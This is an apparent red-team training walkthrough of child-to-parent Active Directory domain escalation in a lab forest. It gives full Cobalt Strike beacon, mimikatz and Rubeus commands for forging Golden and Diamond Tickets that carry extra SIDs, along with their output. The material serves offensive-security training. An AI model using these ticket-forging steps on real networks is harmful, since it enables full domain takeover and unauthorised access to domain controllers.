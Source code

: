# Parent / Child

When a child domain is added to a forest, it automatically creates a transitive, two-way trust with its parent. This be found in the lab where **dev.cyberbotic.io** is a child domain of **cyberbotic.io**.

```
beacon> getuid
[*] You are DEV\bfarmer

beacon> powershell Get-DomainTrust

SourceName      : dev.cyberbotic.io
TargetName      : cyberbotic.io
TrustType       : WINDOWS_ACTIVE_DIRECTORY
TrustAttributes : WITHIN_FOREST
TrustDirection  : Bidirectional
WhenCreated     : 2/19/2021 1:28:00 PM
WhenChanged     : 2/19/2021 1:28:00 PM
```

\


**SourceName** is the current domain, **TargetName** is the foreign domain, **TrustDirection** is the trust direction (bidirectional is two-way), and **TrustAttributes: WITHIN\_FOREST** let's us know that both of these domains are part of the same forest which implies a parent/child relationship.

If we have Domain Admin privileges in the child, we can also gain Domain Admin privileges in the parent using a TGT with a special attribute called SID History. SID History was designed to support migration scenarios, where a user would be moved from one domain to another. To preserve access to resources in the "old" domain, the user's previous SID would be added to the SID History of their new account. So when creating such a ticket, the SID of a privileged group (EAs, DAs, etc) in the parent domain can be added that will grant access to all resources in the parent.

This can be achieved using either a Golden or Diamond Ticket.

\


#### Golden Ticket

The process is the same as creating Golden Tickets previously, the only additional information required is the SID of a target group in the parent domain.

```
beacon> powershell Get-DomainGroup -Identity "Domain Admins" -Domain cyberbotic.io -Properties ObjectSid

objectsid                                   
---------                                   
S-1-5-21-378720957-2217973887-3501892633-512

beacon> powershell Get-DomainController -Domain cyberbotic.io | select Name

Name              
----              
dc-1.cyberbotic.io
```

\


Create the golden ticket:

```
mimikatz # kerberos::golden /user:Administrator /domain:dev.cyberbotic.io /sid:S-1-5-21-3263068140-2042698922-2891547269 /sids:S-1-5-21-378720957-2217973887-3501892633-512 /aes256:390b2fdb13cc820d73ecf2dadddd4c9d76425d4c2156b89ac551efb9d591a8aa /startoffset:-10 /endin:600 /renewmax:10080 /ticket:cyberbotic.kirbi
User      : Administrator
Domain    : dev.cyberbotic.io (DEV)
SID       : S-1-5-21-3263068140-2042698922-2891547269
User Id   : 500
Groups Id : *513 512 520 518 519
Extra SIDs: S-1-5-21-378720957-2217973887-3501892633-512 ;
ServiceKey: 390b2fdb13cc820d73ecf2dadddd4c9d76425d4c2156b89ac551efb9d591a8aa - aes256_hmac
Lifetime  : 3/11/2021 2:49:33 PM ; 3/12/2021 12:49:33 AM ; 3/18/2021 2:49:33 PM
-> Ticket : cyberbotic.kirbi

 * PAC generated
 * PAC signed
 * EncTicketPart generated
 * EncTicketPart encrypted
 * KrbCred generated

Final Ticket Saved to file !
```

\


Where:

* `/user` is the username to impersonate.
* `/domain` is the current domain.
* `/sid` is the current domain SID.
* `/sids` is the SID of the target group to add ourselves to.
* `/aes256` is the AES256 key of the current domain's krbtgt account.
* `/startoffset` sets the start time of the ticket to 10 mins before the current time.
* `/endin` sets the expiry date for the ticket to 60 mins.
* `/renewmax` sets how long the ticket can be valid for if renewed.

\


```
beacon> make_token CYBER\Administrator FakePass
[+] Impersonated DEV\bfarmer

beacon> kerberos_ticket_use C:\Users\Administrator\Desktop\cyberbotic.kirbi
beacon> ls \\dc-1\c$

 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
          dir     02/19/2021 09:22:26   $Recycle.Bin
          dir     02/10/2021 03:23:44   Boot
          dir     10/18/2016 01:59:39   Documents and Settings
          dir     02/23/2018 11:06:05   PerfLogs
          dir     05/06/2021 10:12:58   Program Files
          dir     02/10/2021 02:01:55   Program Files (x86)
          dir     05/17/2021 22:52:56   ProgramData
          dir     10/18/2016 02:01:27   Recovery
          dir     03/25/2021 10:10:50   Shares
          dir     02/19/2021 10:18:17   System Volume Information
          dir     05/15/2021 16:48:31   Users
          dir     05/17/2021 23:15:24   Windows
 379kb    fil     01/28/2021 07:09:16   bootmgr
 1b       fil     07/16/2016 13:18:08   BOOTNXT
 448mb    fil     05/25/2021 08:39:37   pagefile.sys
 
 beacon> rev2self
```

\


#### Diamond Ticket

The Rubeus `diamond` command also has a `/sids` parameter, with which we can supply the extra SIDs we want in our ticket.

```
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Debug\Rubeus.exe diamond /tgtdeleg /ticketuser:Administrator /ticketuserid:500 /groups:512 /sids:S-1-5-21-378720957-2217973887-3501892633-512 /krbkey:390b2fdb13cc820d73ecf2dadddd4c9d76425d4c2156b89ac551efb9d591a8aa /nowrap

[...snip...]

beacon> make_token CYBER\Administrator FakePass
[+] Impersonated DEV\bfarmer

beacon> kerberos_ticket_use C:\Users\Administrator\Desktop\diamond.kirbi

beacon> ls \\dc-1\c$
[*] Listing: \\dc-1\c$\

 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
          dir     02/19/2021 09:22:26   $Recycle.Bin
          dir     02/10/2021 03:23:44   Boot
          dir     10/18/2016 01:59:39   Documents and Settings

[...snip...]
```

\


\


If dev.cyberbotic.io also had a child (e.g. test.dev.cyberbotic.io), then a DA in TEST would be able to use their krbtgt to hop to DA/EA in cyberbotic.io instantly because the trusts are transitive.

There are also other means which do not require DA in the child, some of which we've already seen. You can also kerberoast and ASREProast across domain trusts, which may lead to privileged credential disclosure. Because principals in CYBER can be granted access to resources in DEV, you may find instances where they are accessing machines we have compromised. If they interact with a machine with unconstrained delegation, we can capture their TGTs. If they're on a machine interactively, e.g. over RDP, we can impersonate them just like any other user.
